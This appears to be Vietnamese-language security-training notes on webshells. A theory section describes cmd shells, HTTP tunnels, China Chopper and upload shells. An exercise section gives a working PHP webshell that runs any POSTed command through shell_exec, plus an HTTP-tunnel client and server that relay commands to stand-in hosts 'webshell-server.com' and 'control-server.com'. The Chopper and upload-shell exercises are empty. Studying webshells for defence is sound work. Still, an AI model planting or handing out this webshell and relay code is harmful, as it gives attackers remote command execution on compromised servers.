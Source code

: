 # Lý thuyết

1. Webshell

- Webshell là một loại phần mềm độc hại được sử dụng để kiểm soát máy tính nạn nhân qua các dòng lệnh, được viết bằng các ngôn ngữ như PHP, ASP, JSP, Perl, Python, và Ruby. Webshell cho phép kẻ tấn công thực hiện một số hành động như thêm, xóa, sửa đổi tệp, thực thi mã độc hại, thu thập thông tin nạn nhân và có thể kiểm soát máy nạn nhân.

- Khi máy chủ đã bị nhiễm webshell, kẻ tấn công sẽ truy cập vào máy nạn nhân từ xa qua trình duyệt web hoặc các công cụ quản lý tệp.

2. Các loại webshell

2.1. Cmd shell

- Cmd shell là một loại webshell có khả năng thực thi các dòng lệnh thông qua giao diện dòng lệnh của hệ điều hành(thường dùng hàm shell_exec).

2.2. Http tunnel

- HTTP Tunnel là một loại webshell đặc biệt sử dụng giao thức HTTP để truyền tải các lệnh từ kẻ tấn công đến máy chủ và nhận kết quả trả về thông qua các yêu cầu HTTP. Đây là một loại webshell có khả năng vượt qua các giới hạn về tường lửa hoặc các cơ chế an ninh mạng chặn các kết nối bất thường.

2.3. Chooper

- Chooper cho phép tấn công, thực hiện các hoạt động độc hại và kiểm soát từ xa các hệ thống mà đã được xâm nhập. Chooper có kích thước nhỏ nên khó phát hiện.

2.4. Upload shell

- Upload shell là một kỹ thuật tấn công trong đó kẻ tấn công tải lên một webshell (một đoạn mã độc) lên máy chủ mục tiêu thông qua tính năng tải file của một ứng dụng web. Khi webshell được tải lên thành công và thực thi, nó cho phép kẻ tấn công điều khiển máy chủ từ xa, thực hiện các lệnh hệ thống, truy cập file, hoặc cài đặt phần mềm độc hại.

# Bài tập

1. Cmd shell

- Code

```
<?php
if (isset($_POST['cmd'])) {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PHP CmdShell</title>
</head>
<body>
    <form method="POST">
        <label for="cmd">Nhập lệnh shell:</label><br>
        <input type="text" name="cmd" id="cmd" required><br>
        <input type="submit" value="Thực thi">
    </form>
</body>
</html>

```

- Demo:

<img src = 'https://github.com/NTA06012004/BC-training/blob/main/Week%2012/File%20PNG/1.png'>

2. Http tunnel

- Client:

```
<?php
$data = 'command=ls -la';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'http://webshell-server.com/shell.php');
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query([
    'data' => $data
]));
$response = curl_exec($ch);
curl_close($ch);
echo $response;
?>
```

- Server:

```
<?php
$controlServer = 'http://control-server.com/tunnel';
$apiKey = 'your-api.key';
$data = $_POST['data'];
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $controlServer);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query([
    'data' => $data
]));
$response = curl_exec($ch);
curl_close($ch);
echo $response;
?>
```

- Demo:



3. Chooper

- Code:

- Demo:

4. Upload shell

- Code:

- Demo:
